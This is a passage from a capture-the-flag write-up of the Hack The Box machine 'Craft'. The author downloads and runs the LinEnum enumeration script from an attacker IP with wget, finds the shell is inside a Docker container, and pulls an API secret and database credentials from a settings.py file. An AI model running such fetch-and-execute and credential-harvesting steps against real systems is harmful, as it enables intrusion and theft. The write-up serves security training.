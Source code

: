 {% highlight bash %}
wget http://10.10.XX.XX/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
...
[+] Looks like we're in a Docker container:
10:cpuset:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
9:freezer:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
8:memory:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
7:devices:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
6:pids:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
5:blkio:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
4:perf_event:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
3:net_cls,net_prio:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
2:cpu,cpuacct:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
1:name=systemd:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
-rwxr-xr-x    1 root     root             0 Feb 10  2019 /.dockerenv
{% endhighlight %}

Ahh I see, we are in a Docker container. We might need to escape from it if we want to get our flags :P 

Looking back at the repository on `https://gogs.craft.htb`, there was a `.gitignore`.

{% highlight raw %}
*.pyc
settings.py
{% endhighlight %}

The `settings.py` seemed interesting. It was located at `/opt/app/craft_api` and it contained a lot of juicy information.

{% highlight python %}
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
{% endhighlight %}
